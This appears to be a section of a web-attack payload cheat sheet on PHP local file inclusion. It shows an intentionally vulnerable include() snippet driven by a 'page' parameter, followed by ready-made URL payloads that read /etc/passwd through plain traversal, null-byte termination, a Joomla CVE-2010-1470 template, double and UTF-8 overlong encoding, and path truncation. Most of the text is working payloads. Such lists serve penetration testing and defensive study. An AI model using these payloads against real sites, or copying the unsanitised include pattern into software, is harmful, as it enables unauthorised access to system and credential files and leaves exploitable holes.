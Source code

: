 **File Inclusion Vulnerability** should be differentiated from **Path Traversal**. The Path Traversal vulnerability allows an attacker to access a file, usually exploiting a "reading" mechanism implemented in the target application, when the File Inclusion will lead to the execution of arbitrary code.

Consider a PHP script that includes a file based on user input. If proper sanitization is not in place, an attacker could manipulate the `page` parameter to include local or remote files, leading to unauthorized access or code execution.

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### Null Byte

:warning: In versions of PHP below 5.3.4 we can terminate with null byte (`%00`).

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

**Example**: Joomla! Component Web TV 1.0 - CVE-2010-1470

```ps1
{{BaseURL}}/index.php?option=com_webtv&controller=../../../../../../../../../../etc/passwd%00
```

### Double Encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 Encoding

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path Truncation

On most PHP installations a filename longer than `4096` bytes will be cut off so any excess chars will be thrown away.

```powershell
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

